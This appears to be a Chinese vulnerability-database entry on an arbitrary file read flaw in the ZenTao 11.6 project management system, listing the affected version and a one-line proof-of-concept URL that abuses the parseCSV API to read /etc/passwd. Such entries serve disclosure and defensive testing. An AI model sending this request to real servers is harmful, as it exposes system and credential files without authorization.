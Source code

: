 ```yaml
---
title: '禅道11.6任意文件读取'
date: Thu, 17 Sep 2020 01:38:25 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

禅道 11.6

### 漏洞POC

```
http://127.0.0.1/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd 
```